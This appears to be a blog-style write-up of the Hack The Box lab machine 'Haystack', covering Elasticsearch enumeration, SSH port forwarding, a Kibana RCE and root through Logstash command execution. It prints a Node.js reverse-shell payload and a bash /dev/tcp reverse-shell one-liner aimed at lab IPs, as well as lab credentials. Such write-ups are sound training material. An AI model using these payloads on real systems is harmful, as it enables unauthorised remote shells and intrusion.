



# Hack The Box: Haystack machine write-up

Although rated as easy, this machine could have perfectly been a medium machine. It is all based around the ELK stack: Elasticsearch - Logstash - Kibana, which are three open source projects used together in log analytics. Extracted from their webpage:

> Elasticsearch is a search and analytics engine. Logstash is a server‑side data processing pipeline that ingests data from multiple sources simultaneously, transforms it, and then sends it to a "stash" like Elasticsearch. Kibana lets users visualize data with charts and graphs in Elasticsearch.

On our first contact with the machine we find an ``elasticsearch`` instance, which we need to query to get some credentials and log in through SSH. Then, once inside, we recon and find out that there is a ``kibana`` instance running locally that can be exploited in order to pivot to another user. Again, doing recon with this new user shows us that there is a ``logstash`` service running as root which we can use to execute arbitrary commands. Quite fun!

Let's dig in! The IP of the machine is ``10.10.10.115``.

### Enumeration

As always, we start by enumerating open ports to discover the services running in the machine. I fire up nmap:

*Result of nmap scan*

```sh
# Nmap 7.70 scan initiated Thu Jul  4 13:16:19 2019 as: nmap -sV -sC -oN nmap/initial 10.10.10.115
Nmap scan report for 10.10.10.115
Host is up (0.050s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open  http    nginx 1.12.2
| http-methods:
|_  Potentially risky methods: DELETE
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul  4 13:16:38 2019 -- 1 IP address (1 host up) scanned in 19.22 seconds
```

We can see that there is SSH on the usual port and two http servers on port 80 and 9200. I started by taking a look at port 80.

#### Port 80 enumeration

Upon visiting the website I just find a picture. I didn't even take a look at it at first, but I should have as reading other reports I found out it had some strings on it:

*Image found on port 80*



*Strings found on the image*


So that can be a keyword, "clave" (key), that we'll need to use later.

#### Port 9200 enumeration

First thing we see when we access it is a weird JSON response I had never seen:

*JSON response*


I googled it and came to the conclusion that it was an ``Elasticsearch`` instance, so I started to query it. There were different indices. Basically, we can think of indices as databases in relational databases:

- MySQL => Databases => Tables => Columns/Rows
- Elasticsearch => Indices => Types => Documents with Properties

These are the indices I found:

*Indices found on the kibana instance*


Given that the box is called ``Haystack``, I figured I should query the ``quotes`` index and look for something that stands out.

As I was a noob in ``Elasticsearch`` my method was not too effective and so given that I found out that I could access a document through this URL, ``http://10.10.10.115:9200/quotes/quote/NUMBER``, what I did was write some quick Python that would iterate over all of the quotes looking for some specific strings. I looked for ``key``, ``pass`` and ``:``, when I finally saw among different quotes some base64-encoded data. Good, I had it! I found two pieces of data, a username and a password: ``security:spanish.is.key``. Interestingly, I ended up using "clave" in my Python code to filter the results and get only those documents (I should have known that if I had used strings on the image), as it was the only repeated word in the two messages and not everywhere else.

*Getting the needle on the haystack*


After rooting the box and reading other reports I also found out I could just have used the following url to get the two messages instantly, which would have been so much quicker.

```
http://10.10.10.115:9200/quotes/_search?q=clave
```

*Easier way of finding the data*


#### From user to yet another user

With those credentials I was able to log in through SSH and read ``user.txt``:

*Getting user*


Then, I started enumerating with ``LinEnum.sh`` and also listing internal services running on the box with ``ss -lntpu``.

We find that there is a ``Kibana`` instance running on port 5601:

*Finding the web app locally*


So in order to access it from our machine we can port forward that port through SSH with the following command:

```
ssh -L 5601:localhost:5601 security@10.10.10.115
```

Then, we just access port 5601 on our machine:

*Using port forwarding to access the ``Kibana`` instance*


Looking at the version and checking if it's vulnerable I find that there is a CVE for it with an available POC:

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1234, "10.10.14.47", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```


The vulnerability lies in a RCE that we can exploit to pivot to user `kibana`. I ran the exploit by placing the shell on the ``/tmp`` directory and `curl`\`ing it:

*Getting the reverse shell as `kibana`*




#### From another user to root

Once as `kibana` we just enumerate more and find that we can access a directory that we couldn't access before: ``/etc/logstash/conf.d``. Good, we have access to `logstash` configuration files: ``input.conf``, ``output.conf`` and ``filter.conf``.

Besides, we can also see that there is a process running it continously and as root! Looks like we found our way to root.

*Finding the process with ``ps aux``*


I'll now explain what each of the configuration files does:

- ``input.conf``: takes all the files that start with ``logstash_`` from ``/opt/kibana/`` and marks them as type "execute" every 10 seconds.

*input.conf file*



- ``filter.conf``: takes all "execute" files and if they match the regex it stores them in a variable called ``comando``. The regex is simply: ``Ejecutar comando : whatever``. From github (https://github.com/elastic/logstash/blob/v1.4.2/patterns/grok-patterns) we can see that the GREEDYDATA matches everything once or more (/.*/).

*filter.conf file*


- ``output.conf``: executes the ``comando`` variable specified in the filter phase.

*output.conf file*


Hence, to get a shell I just wrote the following to a file:

```sh
echo "Ejecutar comando : bash -i >& /dev/tcp/10.10.13.52/8001 0>&1" > logstash_d
```

*Getting root*


This box is a really nice way of getting to know ELK, many thanks to the author! I hope you enjoyed this writeup!

---

*Diego Bernal Adelantado*
